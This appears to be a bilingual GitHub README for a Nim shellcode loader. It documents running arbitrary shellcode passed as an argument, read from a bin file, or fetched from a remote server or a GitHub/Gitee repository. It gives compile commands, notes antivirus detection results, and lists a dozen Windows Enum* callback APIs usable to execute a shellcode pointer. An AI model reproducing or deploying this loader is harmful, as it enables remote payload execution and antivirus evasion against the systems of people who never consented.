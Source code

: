 # nim_shellloader 

详见以下:
details:
# usage
```
loader.exe payload.bin
loader.exe  (yourshellcode)
loader.exe (http://xxxx/xxx)
```
put your url/bin/shellcode direct
后面直接跟shellcode内容 或者bin文件名 或者网址就行


①use shellcode:

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/1.gif)

②use bin file

使用bin文件加载shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/2.gif)

③ load the shellcode which on your server(remote load)
加载你服务器上的shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/3.gif)

Besides,You can load shellcode which on your reposiotory(gitee,github,etc.) like this

此外 你还可以把shellcode放在github，gitee的地方让loader去读

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/4.png)

Notice:You must remove '\x' on your shellcode

注意:你必须去除你shellcode中的 \x

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/5.png)


查杀情况


![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/6.png)

# 编译 compile

step1:   setup  require   安装所需的库
```
nimble install https://github.com/khchen/winim
nimble install https://github.com/status-im/nim-stew
```
step2: generate exe   生成exe
```
nim c --cpu:i386 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```
# Advise 建议
windows上编译容易出现玄学问题 可以用debian11交叉编译 不过记得要装mingw


It's easy to have problem if you compile it on Windows Platform.In my opion,you'd better compile it on Linux


如果出现 :```could not load:(libcrypto-1_1|libeay32).dll```
If Go wrong with :```could not load:(libcrypto-1_1|libeay32).dll```

考虑是运行的平台问题 因为编译的时候i386是x86的   所以出现这个问题就把i386换成amd64

I consider this is because of the wrong command(it didn't match target's platform ),so please change "i386" to "amd64",like following

```
nim c --cpu:amd64 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```

If it is compiled on windows, you don't need to add ```-d:mingw```

如果是windows上编译 则可以不用加```-d:mingw```
## 你可能会在运行这个加载器上出现问题 如果你出现
## It's possible that the shellcode_loader will go wrong with:
 could not load: (libcrypto-1_1-x64|libeay64).dll
 
你可能需要解决这些库

That means you maybe need to solve these dll
```
libcrypto-1_1-x64.dll

libenchant.dll

libpq.dll

libsasl.dll

libsodium.dll

libssh2.dll

libssl-1_1-x64.dll
```
You can find them under the floder which belong to PHP

这些库可以在windows下 php环境中找到

Also , you can download them on the Internet
也可以从网上下载


## 源码中的EnumSystemGeoID回调函数可以换成以下函数 等价
## The callback function named "EnumSystemGeoID" in my source can be replaced with following function
``` 
# Callback execution
    EnumSystemGeoID(GEOCLASS_NATION,0,cast[GEO_ENUMPROC](rPtr)) #①
    EnumChildWindows(cast[HWND](nil),cast[WNDENUMPROC](rPtr),cast[LPARAM](nil))#②
    EnumDateFormatsA(cast[DATEFMT_ENUMPROCA](rPtr) , LOCALE_SYSTEM_DEFAULT, cast[DWORD](0))#③
    EnumDesktopsW(GetProcessWindowStation(),cast[DESKTOPENUMPROCW](rPtr), cast[LPARAM](nil))#④
    EnumDesktopWindows(GetThreadDesktop(GetCurrentThreadId()),cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#⑤
    EnumSystemCodePagesA(cast[CODEPAGE_ENUMPROCA](rPtr) ,0)#⑥
    EnumSystemCodePagesW(cast[CODEPAGE_ENUMPROCW](rPtr), CP_INSTALLED)#⑦
    EnumSystemLanguageGroupsA(cast[LANGUAGEGROUP_ENUMPROCA](rPtr),LGRPID_SUPPORTED,0)#⑧
    EnumSystemLocalesA(cast[LOCALE_ENUMPROCA](rPtr) ,nil)#⑨
    EnumThreadWindows(0,csat[WNDENUMPROC](rPtr),0) #⑩
    EnumUILanguagesA(cast[UILANGUAGE_ENUMPROCA](rPtr), MUI_LANGUAGE_ID, 0)#11
    EnumWindows(cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#12
```
